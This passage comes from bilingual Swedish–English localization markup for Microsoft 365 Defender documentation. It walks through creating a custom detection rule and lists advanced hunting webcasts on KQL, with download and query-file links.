   > <span data-ttu-id="e6d23-347">Om du **klickar på Skapa identifieringsregel** och frågan innehåller syntaxfel sparas inte identifieringsregeln.</span><span class="sxs-lookup"><span data-stu-id="e6d23-347">If you click **Create detection rule** and you have syntax errors in your query, your detection rule won't be saved.</span></span> <span data-ttu-id="e6d23-348">Dubbelkolla frågan för att säkerställa att det inte uppstår några fel.</span><span class="sxs-lookup"><span data-stu-id="e6d23-348">Double-check your query to ensure there's no errors.</span></span>

2. <span data-ttu-id="e6d23-349">Fyll i de obligatoriska fälten med informationen som gör att säkerhetsteamet förstår varningen, varför den skapades och vilka åtgärder du förväntar dig att de ska vidta.</span><span class="sxs-lookup"><span data-stu-id="e6d23-349">Fill in the required fields with the  information that will allow the security team to understand the alert, why it was generated, and what actions you expect them to take.</span></span>

   

   <span data-ttu-id="e6d23-351">Se till att du fyller i fälten tydligt för att ge nästa användare ett välgrundat beslut om aviseringen för identifieringsregeln</span><span class="sxs-lookup"><span data-stu-id="e6d23-351">Ensure that you fill out the fields with clarity to help give the next user an informed decision about this detection rule alert</span></span>

3. <span data-ttu-id="e6d23-352">Välj vilka enheter som påverkas i den här aviseringen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-352">Select what entities are impacted in this alert.</span></span> <span data-ttu-id="e6d23-353">I det här fallet väljer du **Enhet** och **postlåda.**</span><span class="sxs-lookup"><span data-stu-id="e6d23-353">In this case, select **Device** and **Mailbox**.</span></span>

   

4. <span data-ttu-id="e6d23-355">Fastställ vilka åtgärder som ska vidtas om aviseringen utlöses.</span><span class="sxs-lookup"><span data-stu-id="e6d23-355">Determine what actions should take place if the alert is triggered.</span></span> <span data-ttu-id="e6d23-356">I så fall kör du en antivirussökning, men andra åtgärder kan också vidtas.</span><span class="sxs-lookup"><span data-stu-id="e6d23-356">In this case, run an antivirus scan, though other actions could be taken.</span></span>

   

5. <span data-ttu-id="e6d23-358">Välj omfattning för aviseringsregeln.</span><span class="sxs-lookup"><span data-stu-id="e6d23-358">Select the scope for the alert rule.</span></span> <span data-ttu-id="e6d23-359">Eftersom den här frågan involverar enheter är enhetsgrupper relevanta i den här anpassade identifieringen enligt Microsoft Defender för Slutpunktskontext.</span><span class="sxs-lookup"><span data-stu-id="e6d23-359">Since this query involve devices, the device groups are relevant in this custom detection according to Microsoft Defender for Endpoint context.</span></span> <span data-ttu-id="e6d23-360">När du skapar en anpassad identifiering som inte inkluderar enheter som påverkade enheter gäller inte omfattningen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-360">When creating a custom detection that does not include devices as impacted entities, scope does not apply.</span></span>

   

   <span data-ttu-id="e6d23-362">För det här pilottestet kanske du vill begränsa regeln till en delmängd av testenheterna i produktionsmiljön.</span><span class="sxs-lookup"><span data-stu-id="e6d23-362">For this pilot, you might want to limit this rule to a subset of testing devices in your production environment.</span></span>

6. <span data-ttu-id="e6d23-363">Välj **Skapa**.</span><span class="sxs-lookup"><span data-stu-id="e6d23-363">Select **Create**.</span></span> <span data-ttu-id="e6d23-364">Välj sedan **Anpassade identifieringsregler** i navigeringsfönstret.</span><span class="sxs-lookup"><span data-stu-id="e6d23-364">Then, select **Custom detection rules** from the navigation panel.</span></span>

   

   

   <span data-ttu-id="e6d23-367">På den här sidan kan du välja identifieringsregel, vilket öppnar en informationssida.</span><span class="sxs-lookup"><span data-stu-id="e6d23-367">From this page, you can select the detection rule, which will open a details page.</span></span>

   

### <a name="additional-advanced-hunting-walk-through-exercises"></a><span data-ttu-id="e6d23-369">Mer avancerad genomgångs övningar för sökning</span><span class="sxs-lookup"><span data-stu-id="e6d23-369">Additional advanced hunting walk-through exercises</span></span>

<span data-ttu-id="e6d23-370">I följande webbsändningar får du lära dig mer om avancerad sökning i Microsoft 365 Defender, där du får hjälp med att skapa korsfrågor, pivotera till enheter och skapa anpassade identifieringar och åtgärdsåtgärder.</span><span class="sxs-lookup"><span data-stu-id="e6d23-370">To learn more about advanced hunting, the following webcasts will walk you through the capabilities of advanced hunting within Microsoft 365 Defender to create cross-pillar queries, pivot to entities and create custom detections and remediation actions.</span></span>

> [!NOTE]
> <span data-ttu-id="e6d23-371">Förbered dig med ditt GitHub konto för att köra frågor om testlabb.</span><span class="sxs-lookup"><span data-stu-id="e6d23-371">Be prepared with your own GitHub account to run the hunting queries in your pilot test lab environment.</span></span>

|<span data-ttu-id="e6d23-372">Title</span><span class="sxs-lookup"><span data-stu-id="e6d23-372">Title</span></span>|<span data-ttu-id="e6d23-373">Beskrivning</span><span class="sxs-lookup"><span data-stu-id="e6d23-373">Description</span></span>|<span data-ttu-id="e6d23-374">Ladda ned MP4</span><span class="sxs-lookup"><span data-stu-id="e6d23-374">Download MP4</span></span>|<span data-ttu-id="e6d23-375">Titta på YouTube</span><span class="sxs-lookup"><span data-stu-id="e6d23-375">Watch on YouTube</span></span>|<span data-ttu-id="e6d23-376">CSL-fil att använda</span><span class="sxs-lookup"><span data-stu-id="e6d23-376">CSL file to use</span></span>|
|---|---|---|---|---|
|<span data-ttu-id="e6d23-377">Avsnitt 1: Grunderna i KQL</span><span class="sxs-lookup"><span data-stu-id="e6d23-377">Episode 1: KQL fundamentals</span></span>|<span data-ttu-id="e6d23-378">Vi går in på grunderna i avancerade sökfunktioner i Microsoft 365 Defender.</span><span class="sxs-lookup"><span data-stu-id="e6d23-378">We'll cover the basics of advanced hunting capabilities in Microsoft 365 Defender.</span></span> <span data-ttu-id="e6d23-379">Läs mer om tillgängliga avancerade data för sökning och grundläggande KQL-syntax och -operatorer.</span><span class="sxs-lookup"><span data-stu-id="e6d23-379">Learn about available advanced hunting data and basic KQL syntax and operators.</span></span>|[<span data-ttu-id="e6d23-380">MP4</span><span class="sxs-lookup"><span data-stu-id="e6d23-380">MP4</span></span>](https://aka.ms/MTP15JUL20_MP4)|[<span data-ttu-id="e6d23-381">YouTube</span><span class="sxs-lookup"><span data-stu-id="e6d23-381">YouTube</span></span>](https://youtu.be/0D9TkGjeJwM)|[<span data-ttu-id="e6d23-382">Avsnitt 1: CSL-fil i Git</span><span class="sxs-lookup"><span data-stu-id="e6d23-382">Episode 1: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|<span data-ttu-id="e6d23-383">Avsnitt 2: Kopplingar</span><span class="sxs-lookup"><span data-stu-id="e6d23-383">Episode 2: Joins</span></span>|<span data-ttu-id="e6d23-384">Vi fortsätter att lära oss mer om data inom avancerad sökning och hur du kan koppla ihop tabeller.</span><span class="sxs-lookup"><span data-stu-id="e6d23-384">We'll continue learning about data in advanced hunting and how to join tables together.</span></span> <span data-ttu-id="e6d23-385">Lär dig mer om inre, yttre, unika och halvseparerade kopplingar och nyanserna hos standardkopplingen i Kusto innerunique.</span><span class="sxs-lookup"><span data-stu-id="e6d23-385">Learn about inner, outer, unique, and semi joins, and the nuances of the default Kusto innerunique join.</span></span>|[<span data-ttu-id="e6d23-386">MP4</span><span class="sxs-lookup"><span data-stu-id="e6d23-386">MP4</span></span>](https://aka.ms/MTP22JUL20_MP4)|[<span data-ttu-id="e6d23-387">YouTube</span><span class="sxs-lookup"><span data-stu-id="e6d23-387">YouTube</span></span>](https://youtu.be/LMrO6K5TWOU)|[<span data-ttu-id="e6d23-388">Avsnitt 2: CSL-fil på Git</span><span class="sxs-lookup"><span data-stu-id="e6d23-388">Episode 2: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|<span data-ttu-id="e6d23-389">Avsnitt 3: Sammanfatta, pivotera och visualisera data</span><span class="sxs-lookup"><span data-stu-id="e6d23-389">Episode 3: Summarizing, pivoting, and visualizing data</span></span>|<span data-ttu-id="e6d23-390">Nu när vi kan filtrera, manipulera och sammanfoga data är det dags att börja sammanfatta, mäta, pivotera och visualisera.</span><span class="sxs-lookup"><span data-stu-id="e6d23-390">Now that we're able to filter, manipulate, and join data, it's time to start summarizing, quantifying, pivoting, and visualizing.</span></span> <span data-ttu-id="e6d23-391">I det här avsnittet tar vi upp sammanfattningsoperatorn och en del av beräkningarna du kan utföra när du börjar med fler tabeller i det avancerade sökschemat.</span><span class="sxs-lookup"><span data-stu-id="e6d23-391">In this episode, we'll cover the summarize operator and some of the calculations you can perform while diving into additional tables in the advanced hunting schema.</span></span> <span data-ttu-id="e6d23-392">Vi omvandlar datamängderna till diagram som kan förbättra analysen.</span><span class="sxs-lookup"><span data-stu-id="e6d23-392">We turn our datasets into charts that can help improve analysis.</span></span>|[<span data-ttu-id="e6d23-393">MP4</span><span class="sxs-lookup"><span data-stu-id="e6d23-393">MP4</span></span>](https://aka.ms/MTP29JUL20_MP4)|[<span data-ttu-id="e6d23-394">YouTube</span><span class="sxs-lookup"><span data-stu-id="e6d23-394">YouTube</span></span>](https://youtu.be/UKnk9U1NH6Y)|[<span data-ttu-id="e6d23-395">Avsnitt 3: CSL-fil i Git</span><span class="sxs-lookup"><span data-stu-id="e6d23-395">Episode 3: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|<span data-ttu-id="e6d23-396">Avsnitt 4: Vi jagar!</span><span class="sxs-lookup"><span data-stu-id="e6d23-396">Episode 4: Let's hunt!</span></span> <span data-ttu-id="e6d23-397">Tillämpa KQL på incidentspårning</span><span class="sxs-lookup"><span data-stu-id="e6d23-397">Applying KQL to incident tracking</span></span>|<span data-ttu-id="e6d23-398">Dags att spåra vissa attacker!</span><span class="sxs-lookup"><span data-stu-id="e6d23-398">Time to track some attacker activity!</span></span> <span data-ttu-id="e6d23-399">I det här avsnittet använder vi vår förbättrade förståelse av KQL och avancerad sökning i Microsoft 365 Defender för att spåra en attack.</span><span class="sxs-lookup"><span data-stu-id="e6d23-399">In this episode, we'll use our improved understanding of KQL and advanced hunting in Microsoft 365 Defender to track an attack.</span></span> <span data-ttu-id="e6d23-400">Lär dig några tips som används för att spåra attackersaktivitet, till exempel ABCS för cybersäkerhet och hur de tillämpas på incidentsvar.</span><span class="sxs-lookup"><span data-stu-id="e6d23-400">Learn some of the tips and tricks used in the field to track attacker activity, including the ABCs of cybersecurity and how to apply them to incident response.</span></span>|[<span data-ttu-id="e6d23-401">MP4</span><span class="sxs-lookup"><span data-stu-id="e6d23-401">MP4</span></span>](https://aka.ms/MTP5AUG20_MP4)|[<span data-ttu-id="e6d23-402">YouTube</span><span class="sxs-lookup"><span data-stu-id="e6d23-402">YouTube</span></span>](https://youtu.be/2EUxOc_LNd8)|[<span data-ttu-id="e6d23-403">Avsnitt 4: CSL-fil i Git</span><span class="sxs-lookup"><span data-stu-id="e6d23-403">Episode 4: CSL file in Git</span></span>](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a><span data-ttu-id="e6d23-404">Nästa steg</span><span class="sxs-lookup"><span data-stu-id="e6d23-404">Next step</span></span>

|<span data-ttu-id="e6d23-405"></span><span class="sxs-lookup"><span data-stu-id="e6d23-405"></span></span> <br>[<span data-ttu-id="e6d23-406">Slutfas och sammanfattningsfas</span><span class="sxs-lookup"><span data-stu-id="e6d23-406">Closing and summary phase</span></span>](m365d-pilot-close.md)|<span data-ttu-id="e6d23-407">Analysera dina Microsoft 365 Defender pilotresultat, presentera dem för dina intressenter och ta nästa steg.</span><span class="sxs-lookup"><span data-stu-id="e6d23-407">Analyze your Microsoft 365 Defender pilot outcome, present them to your stakeholders, and take the next step.</span></span>
|:-----|:-----|
